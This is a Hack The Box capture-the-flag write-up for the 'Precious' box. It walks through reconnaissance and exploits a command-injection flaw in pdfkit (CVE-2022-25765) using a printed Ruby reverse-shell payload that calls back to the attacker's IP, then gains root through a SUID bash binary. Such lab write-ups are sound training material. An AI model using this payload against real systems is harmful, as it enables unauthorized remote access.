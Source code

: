 
## HTB Precious Writeup

### Box Overview

The Precious Box on Hack the Box is a Linux box listed under the 'Easy' difficulty.

![](/docs/images/precious/20221224161832.png)

It currently has about 5600 user solves and 5100 roots, which is pretty common with easy boxes as there's not a huge difficulty curve on the privilege escalation portion. Let's get into it then.

### Reconnaissance
---
#### Nmap Scan

Starting with an nmap scan is usually a good way to figure out if this is another ssh/http box or if we get something interesting. 

![](/docs/images/precious/20221224164006.png)

Another box with the SSH ports and HTTP ports, at least the web app practice is nice. We can also see that the hostname is `precious.htb` so I'll just go ahead and add that to my `/etc/hosts` file. ( `-p-` scan didn't retrieve meaningful to I left it out.)

#### Walking the Application

Visiting `http://precious.htb` yields what looks like a single page app. 

![](/docs/images/precious/20221224164559.png)


Looks like there's a simple front-end page that takes a URL and converts the page result to a PDF file. Since these HTB containers don't have access to the internet, I'm going to spin up a Python web server to test it. 

![](/docs/images/precious/20221224164929.png)

I just hosted this on port 80 for simplicity.

![](/docs/images/precious/20221224165058.png)

This then downloads a PDF file automatically upon clicking 'Submit'.

![](/docs/images/precious/20221224165223.png)

The pdf file statically looks pretty normal, and it looks like it's generated by `pdfkit v0.8.6` which may be of interest. The PDF file generated looks pretty standard so I don't expect anything crazy from it. 

![](/docs/images/precious/20221224165511.png)

Nothing out of the ordinary, that is just an older PDF that I had downloaded from the same website. 

#### Gobuster Scan

While it doesn't seem like a directory search will amount to much I'm still going to do it.

![](/docs/images/precious/20221224165748.png)

Honestly, that's a first. At least Apache spits out a .htacess or something. But nginx doesn't really do those. And just from manually searching the only other file I could find was the `stylesheets/style.css` file in the page source.


### Preparing for Exploitation
---
I just wanted to add this section since searching for `pdfkit exploit` yields this cool one.

Source: `https://github.com/CyberArchitect1/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell.git`

![](/docs/images/precious/20221224170118.png)

This seems like it might work, I just assumed this since a lot of HTB boxes are made for trying new exploits and provide a nice way to share this with a large audience. Now it goes say `pdfkit <0.8.6`, but I still want to try it.

(Also I realized after reading the txt file that this was specifically designed for this box, but I didn't know that previously so we'll pretend its not.)

Setting up the exploit is pretty straightforward as it just requires two lightweight servers to be up and open.

![](/docs/images/precious/20221224173129.png)

So now that I've got the Python web server and the Netcat listener, I'll move onto the exploitation.

### Exploitation
---
For this line, I'm going to use one that was in the GitHub link above.

```
http://10.10.16.14:9090/?name=%20` ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.16.14",8888))'`
```

![](/docs/images/precious/20221224173552.png)

Neat. 

![](/docs/images/precious/20221224174121.png)

Still no user flag though. So some lateral movement is required to move from ruby to henry first. 


### Post-Exploitation
---
First I'm going to start with the lateral movement to access the Henry user. 

![](/docs/images/precious/20221224174637.png)

Just from some looking around. I can see that Laurel is running on this box, maybe I'll come back to that later. Time for some easy enumeration.

![](/docs/images/precious/20221224174903.png)

Time to drop LinPeas in the /tmp instead of doing the work myself. 

Okay so apparently the `/bin/bash` file has a SUID bit set to it. 

![](/docs/images/precious/20221224175443.png)

I have no idea of this is intentional or not, but okay I'm gonna roll with it.

![](/docs/images/precious/20221224175659.png)

Okay then, neat little box that uses a new pdfkit exploit. Overall pretty neat, some easy HTB points if you're looking for those. 







